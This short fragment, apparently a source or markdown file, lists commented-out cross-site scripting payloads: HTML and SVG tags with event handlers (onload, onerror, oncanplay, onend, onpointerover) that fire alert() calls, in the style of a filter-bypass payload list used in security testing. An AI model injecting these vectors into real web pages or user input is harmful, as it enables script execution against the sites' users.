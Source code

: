 # <h1><img src=x ><h1>
# <svg/onload=alert()>
# <audio oncanplay=alert(1)><source src="valid"audio.wav" type="audio/wav"></audio>
# <audio controls onwaiting=alert(1)><source src=x type=x></audio>
# <svg><animate onend=alert(1) attributeName=x dur=1s>
# <audio src/onerror=alert(1)>
# <body onload=alert(1)>
# <xss onpointerover=alert(1) style=display:block>XSS</xss>









